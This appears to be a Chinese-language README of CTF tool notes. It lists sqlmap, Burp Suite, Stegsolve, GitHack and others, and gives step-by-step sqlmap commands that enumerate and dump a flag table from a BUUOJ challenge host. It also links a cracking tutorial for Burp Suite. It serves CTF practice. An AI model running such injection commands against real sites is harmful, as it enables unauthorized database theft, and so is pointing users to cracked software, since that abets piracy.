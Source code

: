 ## 工具


### SqlMap

### OWASP ZAP

### Burp Suite

破解教程：http://www.52pjb.net/xiazai/36163.html#xzdz

### Stegotools

作用：查看图像的隐写情况。

使用：在tools下运行```jar ./Stegsolve.jar```命令即可。

### GitHack

详情请见·```Githack```文件夹下的```README.md```

### SqlMap

使用步骤：
1. 查看数据库名称：
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 --dbs
```
2. 查看目标数据库的表,note表示目标表。
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables
```
3. 查看数据库表字段
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables -T fl4g --columns
```

4. 查看目标字段的值
```
python sqlmap.py http://b1a4b711-121f-431c-a658-19db3107b04c.node4.buuoj.cn:81/index.php?id=1 -D note --tables -T fl4g -C f111ag --dump
```

最后得到```flag```。


### AZPR爆破工具

### BinWalk

### 其他

1. F5隐写工具使用：https://zhuanlan.zhihu.com/p/480561261